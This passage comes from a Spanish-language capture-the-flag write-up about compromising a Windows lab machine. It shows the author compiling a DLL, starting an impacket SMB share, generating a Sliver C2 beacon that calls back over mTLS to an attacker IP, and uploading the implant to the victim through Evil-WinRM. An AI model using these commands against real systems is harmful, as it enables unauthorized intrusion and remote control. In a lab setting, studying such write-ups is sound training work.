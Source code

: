 Ahora compilamos el proyecto en **Release**
![Write-up Image](images/Screenshot_6.png)

Aquí tenemos el DLL.
![Write-up Image](images/Screenshot_7.png)

Nos lo pasamos a nuestra máquina de atacante creando un servidor SMB con `impacket-smbserver`
```console
$ sudo impacket-smbserver -smb2support smbFolder .
```

Vamos con `sliver` a generar un beacon.
```console
[server] sliver > generate beacon --os windows --format exe --seconds 5 --mtls 10.10.14.125 --arch amd64

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 46s
[*] Implant saved to /home/pointedsec/Desktop/resolute/LUCKY_SPEND.exe
```

Ahora lo he subido a la máquina víctima al directorio `C:\test\s.exe`
```console
*Evil-WinRM* PS C:\test> dir


    Directory: C:\test


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/7/2024  11:53 AM       15817728 s.exe
-a----         9/7/2024  11:52 AM            137 users.txt


```
